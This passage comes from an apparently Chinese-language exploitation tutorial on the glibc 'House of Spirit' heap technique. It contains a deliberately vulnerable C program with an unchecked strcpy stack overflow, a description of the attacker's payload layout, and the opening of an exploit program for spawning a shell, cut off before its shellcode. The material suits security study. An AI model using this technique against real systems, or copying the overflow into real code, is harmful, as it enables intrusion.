 这个即便是在最新的glibc中，也没有相应的对应措施 :P (2015.3.4)
##### House of Spirit
在这个技术当中，攻击者欺骗glibc malloc返回到在栈中（而不是堆空间）的chunk中。这个能让攻击者覆写栈上的返回地址
先决条件：
1. 一个栈溢出，并且要能覆盖到glibc malloc返回的变量在栈上的保存位置
2. 上述的这个chunk要能被释放掉。攻击者应该控制被释放的chunk的大小，使得它的大小要等于下一个malloc出的chunk大小
3. malloc
4. 用户输入还应该被copy到这个新malloc出的chunk中
example vuln code:
```
/* vuln.c
House of Spirit vulnerable program
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void fvuln(char *str1, int age)
{
   char *ptr1, name[44];
   int local_age;
   char *ptr2;
   [1]local_age = age; /* Prereq 2 */

   [2]ptr1 = (char *) malloc(256);
   printf("\nPTR1 = [ %p ]", ptr1);
   [3]strcpy(name, str1); /* Prereq 1 */
   printf("\nPTR1 = [ %p ]\n", ptr1);
   [4]free(ptr1); /* Prereq 2 */

   [5]ptr2 = (char *) malloc(40); /* Prereq 3 */
   [6]snprintf(ptr2, 40-1, "%s is %d years old", name, local_age); /* Prereq 4 */
   printf("\n%s\n", ptr2);
}

int main(int argc, char *argv[])
{
   int i=0;
   int stud_class[10];  /* Required since nextchunk size should lie in between 8 and arena's system_mem. */
   for(i=0;i<10;i++)
        [7]stud_class[i] = 10;
   if (argc == 3)
      fvuln(argv[1], 25);
   return 0;
}
```
![@对应的堆空间分布](http://r.photo.store.qq.com/psb?/V13dixb24fK0LX/1ejv69zS2fTX9naEAydgEVyxi34rdPdaU*zszwvRGyM!/r/dEQAAAAAAAAA)
在第[3]行中能够有bof的发生。因此攻击者为了成功exploit这个程序，需要给出下列的argv[1]：
argv[1] = Shell Code + Stack Address + Chunk Size
相应的exp如下：
```
/* Program to exploit executable 'vuln' using hos technique.
 */
#include <stdio.h>
#include <unistd.h>
#include <string.h>

#define VULNERABLE "./vuln"

/* Shellcode to spwan a shell. Size: 48 bytes - Includes Return Address overwrite */
char scode[] =
```